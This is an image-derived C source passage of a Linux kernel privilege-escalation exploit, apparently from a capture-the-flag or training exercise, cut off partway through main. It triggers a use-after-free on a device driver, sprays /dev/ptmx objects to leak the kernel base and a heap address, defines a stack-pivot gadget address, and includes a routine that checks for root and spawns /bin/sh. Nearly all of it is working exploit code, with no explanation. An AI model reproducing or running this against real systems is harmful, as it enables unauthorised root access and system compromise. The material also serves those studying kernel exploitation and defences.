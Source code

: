 ```c
uint64_t stack_pivot = 0xffffffff8114fbea;

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

int main() {
  save_userland_state();

  int fd1 = open(DEVICE, O_RDWR);
  int fd2 = open(DEVICE, O_RDWR);
  char buf[0x400];

  if (fd1 == -1 || fd2 == -1) {
    perror("open");
    return 1;
  }

  close(fd1);

  for (int i = 0; i < SPRAY_NUM; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  read(fd2, buf, 0x400);

  uint64_t *ptr = (uint64_t *)buf;

  kernel_base = ptr[3] - OPS_OFFSET;
  g_buf = ptr[7] - 0x38;

  printf("[+] kernel_base: 0x%lx\n", kernel_base);
  printf("[+] g_buf: 0x%lx\n", g_buf);

  for (int i = 0; i < 0x60; i++) {
    ptr[i] = 0xffffffffdead0000 + i;
  }
```